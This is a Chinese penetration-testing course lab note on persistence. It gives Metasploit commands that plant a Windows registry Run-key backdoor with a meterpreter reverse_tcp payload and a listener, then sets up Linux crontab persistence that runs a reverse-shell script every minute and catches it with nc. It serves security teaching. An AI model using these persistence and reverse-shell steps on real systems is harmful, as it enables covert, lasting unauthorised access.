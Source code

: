 ```yaml
---
title: 实验六--权限维持技术
category: 学习笔记
tags: [网络渗透测试技术、权限维持]
published: 2025/04/23 11:53:14
permalink: /course/wv34hxwx/
---
```

## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

```msf
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

```msf
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```

![](./images/202312071143184.png)
在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`
![](./images/202312071143185.png)

win+r打开运行输入regedit回车即可打开注册表
然后在 `KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

![实验六_image_3](./images/202312071143186.png)回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```

![实验六_image_4](./images/202312071143187.png)

## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应

![实验六_image_5](./images/202312071143188.png)

保存后还要更改文件的权限

![实验六_image_6](./images/202312071143189.png)
然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径

![实验六_image_7](./images/202312071143190.png)

kali使用nc启动监听，即可监听到shell

![实验六_image_8](./images/202312071143191.png)
